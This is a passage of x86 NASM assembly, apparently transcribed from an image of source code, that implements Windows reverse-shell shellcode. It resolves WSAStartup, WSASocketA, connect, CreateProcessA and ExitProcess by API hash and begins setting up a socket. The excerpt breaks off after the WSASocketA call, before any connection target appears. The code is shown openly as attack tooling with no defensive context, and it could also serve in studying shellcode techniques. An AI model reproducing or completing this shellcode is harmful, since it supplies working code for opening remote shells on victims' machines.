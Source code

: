 ```nasm
    ; ESP 0022FF84 ASCII "ws2_32"
    ; EBP 004010F7 reverse_.004010F7
    ; ESI 0054190C
    ; EDI 00401140 reverse_.00401140
    ; EIP 00401040 reverse_.00401040

getWSAStartup:
    push 0x3bfcedcb                 ; WSAStartup hash
    push edx                        ; push ws2_32.dll handler
    call ebp                        ; find WSAStartup in ws2_32.dll handler
    add sp, 8
    push eax
    lea esi, [esp]
    mov [esi+0x4], eax

getWSASocketA:
    push 0xadf509d9                 ; WSASocketA hash
    push edx                        ; push ws2_32.dll handler
    call ebp                        ; find WSASocketA in ws2_32.dll handler
    add sp, 8
    mov [esi+0x8], eax

getConnect:
    push 0x60aaf9ec                 ; connect hash
    push edx                        ; push ws2_32.dll handler
    call ebp                        ; find connect in ws2_32.dll handler
    add sp, 8
    mov [esi+0xc], eax

getCreateProcessA:
    push 0x16b3fe72                 ; CreateProcessA hash
    push ebx                        ; push kernel32.dll handler
    call ebp                        ; find CreateProcessA in kernel32.dll handler
    add sp, 8
    mov [esi+0x10], eax

getExitProcess:
    push 0x73e2d87e          ; ExitProcess hash
    push ebx                 ; kernel32 dll location
    call ebp    
    add sp, 8
    mov [esi+0x14], eax         
    
callWSAStartUp:
    xor edx, edx
    mov dx, 0x190          ; EAX = sizeof( struct WSAData )
    sub esp, edx           ; alloc some space for the WSAData structure
    push esp               ; push a pointer to this stuct
    push edx               ; push the wVersionRequested parameter
    call dword [esi+0x4]   ; call WSAStartup(MAKEWORD(2, 2), wsadata_pointer)

callWSASocketA:
    xor edx, edx                    ; clear edx
    push edx;                       ; dwFlags=NULL
    push edx;                       ; g=NULL
    push edx;                       ; lpProtocolInfo=NULL
    mov dl, 0x6                     ; protocol=6
    push edx
    sub dl, 0x5                     ; edx==1
    push edx                        ; type=1
    inc edx                         ; af=2
    push edx
    call dword [esi+0x8]            ; call WSASocketA
```